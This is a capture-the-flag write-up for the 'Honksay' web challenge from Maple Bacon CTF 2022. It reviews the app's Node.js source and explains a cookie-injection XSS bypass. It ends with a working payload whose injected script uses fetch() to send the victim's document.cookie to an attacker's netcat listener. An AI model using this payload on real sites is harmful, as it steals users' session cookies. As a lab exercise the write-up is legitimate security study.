

# Maple Bacon CTF 2022 - Web - Honksay
Author: Vie#1231
Release Date: August 26, 2022

## Challege Description
Haha goose say funny thing

## Tools Used
- netcat
- burpsuite

## Write Up

You're given a weblink:



And a compressed files with what appears to be running on the webserver:

```
└── hosted
    ├── app.js
    ├── Dockerfile
    ├── goose.js
    ├── package.json
    ├── package-lock.json
    └── public
        └── images
            └── goosevie.png

```

Let's look at the javascript files

Web form post from [app.js](./src/app.js)
```javascript
app.post('/report', (req, res) => {
    const url = req.body.url;
    goose.visit(url);
    res.send('honk');
});
```

What ever you input into the form will be pushed to [goose.js](./src/goose.js). Looks like some XSS action. So lets take a closer look

```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```

It looks like goose.js will run a headless chromium browser and attempt the visit the url from the input of the webform. More importantly it will set a cookie with the flag BUT it can only be accessed from the localhost. We need to have the goose.js visit a localhost site. Let's take a closer look at app.js to see if something can help:

```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```

Maybe we can have the webserver visit itself with a localhost get a  "newhonk" request to /changehonk to set the honk cookie which gets redirected to /. The "newhonk" request will have to be an object or else it will be picked up by the clean function. We can use the honk cookie to inject html/js into the html template:

```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```

Set up a internet accessible netcat listener and input the following into the webform: 

```
http://localhost:9988/changehonk?newhonk[msg]=<script>fetch("http://netcatIP:port/cookie=?${document.cookie}");</script>
```

We see the cookie in the http header on our netcat listener. There is your flag.


Note:

You can also use: [https://putsreq.com/](https://putsreq.com/) instead of a netcat listener.